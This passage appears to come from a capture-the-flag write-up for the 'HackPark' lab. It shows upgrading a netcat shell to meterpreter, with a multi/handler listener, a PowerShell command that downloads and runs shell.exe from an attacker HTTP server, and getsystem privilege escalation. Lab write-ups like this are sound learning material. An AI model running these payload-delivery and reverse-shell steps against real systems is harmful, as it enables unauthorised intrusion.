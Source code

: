 <img src="images/06.HackPark/15.png" height="200">

We received a shell in the netcat listener!

<img src="images/06.HackPark/16.png" height="200">

We will elevate out netcat shell to meterpreter shell. We will start this by generating a payload using msfvenom.

<img src="images/06.HackPark/17.png" height="200">

Start metasploit and use exploit multi/handler.

```
use multi/handler

set lhost tun0

set lport 3333

exploit
```

<img src="images/06.HackPark/18.png" height="300">

Start the python http server using the following command. It serves on port 8000 by default.

```
python -m http.server
```

Now, download the payload to the target machine and run it.

```
powershell -c wget http://10.6.10.164:8000/shell.exe -outfile shell.exe
```

<img src="images/06.HackPark/19.png" height="500">

We now got a reverse shell via metasploit!

<img src="images/06.HackPark/20.png" height="500">

# Privilege Escalation

## Method 1: Using meterpreter's getsystem

Use the command getsystem to elevate the privileges from local user to root user.

<img src="images/06.HackPark/21.png" height="500">

## Method 2: Using Windows Scheduled Task

